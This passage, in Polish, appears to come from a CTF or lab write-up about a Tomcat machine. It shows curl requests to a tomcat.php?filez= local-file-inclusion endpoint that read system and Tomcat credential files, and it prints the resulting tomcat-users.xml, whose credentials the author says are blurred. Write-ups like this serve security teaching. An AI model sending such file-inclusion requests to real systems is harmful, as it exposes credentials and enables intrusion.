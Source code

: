 ```bash
tomcat:x:1001:1001::/opt/tomcat:/bin/false
```
Widzimy dwie ważne informacje. Jest użytkownik _nathan_ i katalog zainstalowanego **Tomcata** znajduje się pradopodobnie w _/opt/tomcat_. Szukając w Internecie i trochę pamiętając o pewnym pliku _tomcat-users.xml_, w którym to było zazwyczaj hasło i nazwa użytkownika. Plik znajdował się w katalogu _conf_. Jednak komenda _curl http://172.16.1.214/tomcat.php?filez=/opt/tomcat/conf/tomcat-users.xml_ nic ciekawego nie pokazała. Szukając po necie, okazało się, że jeszcze dodatkowo oprócz katalogu _/opt/tomcat_ jest katalog _latest_. Tym razem zadziałało, ale tylko z konsolowym **Curlem**. Przeglądarka chyba blokuje pliki _.xml_(?)
{: .text-justify}

## 04. Zabawa W Tomka i myszkę
Poniższy config prawie tak wygląda jak w oryginale. Jednak zamazałem login i hasło, żeby nie było tak łatwo :smiley:
{: .text-justify}
```bash
# curl http://172.16.1.214/tomcat.php?filez=/opt/tomcat/latest/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of
 the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only

  The users below are wrapped in a comment and are therefore ignored. If you
  wish to configure one or more of these users for use with the manager web
  application, do not forget to remove the <!.. ..> that surrounds them. You
  will also need to set the passwords to something appropriate.
-->
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
-->
<!--
  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
```
